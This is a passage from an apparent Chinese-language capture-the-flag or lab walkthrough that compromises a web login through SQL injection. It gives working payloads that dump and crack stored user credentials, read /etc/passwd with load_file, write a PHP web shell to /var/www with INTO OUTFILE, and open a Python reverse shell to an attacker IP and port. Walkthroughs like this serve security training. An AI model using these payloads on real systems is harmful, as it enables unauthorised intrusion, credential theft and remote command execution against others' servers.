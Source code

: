 <8>查内容

```plain
email=admin' union select 11,22,33,group_concat(concat_ws(':',email,pass)),55,66,77,88 from ch16.users#
（回显结果：admin@isints.com:c2c4b4e51d9e23c02c15702c136c3e950ba9a4af）
（解密后为 killerbeesareflying）
```

结果只有一个应该就是网站登录的账号密码，但以 ch16.users 拿到的用户凭据登录网站会提示 WAF 拦截。mysql.user 可以获取到两个凭据，但解密不出

> 从 ch16.users 获取到邮箱和密码 admin\\@isints.com:killerbeesareflying

### <3>SQLi 文件读写 反弹 shell

<9>发现可以`load_file` 读取本地文件

```plain
email=admin' union select 11,22,33,load_file('/etc/passwd'),55,66,77,88 #
```

<10> `/var/www`写入文件`shelltest.php` 内容为一句话，需要注意的是所导出的文件名一定要是网站中不存在的，不然也不会成功

```plain
email=' union select 11,22,33,"<?php system($_POST['x']);?>",55,66,77,88 into outfile '/var/www/shell4.php'#&pass=1234&submit=Login&submitted=TRUE
```

<11>验证`outfile`是否成功，发现成功写入

```plain
email=admin' union select 11,22,33,load_file('/var/www/shell4.php'),55,66,77,88 #
```

<12>python 反弹 shell 成功

```plain
export RHOST="10.10.10.23";export RPORT=2233;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
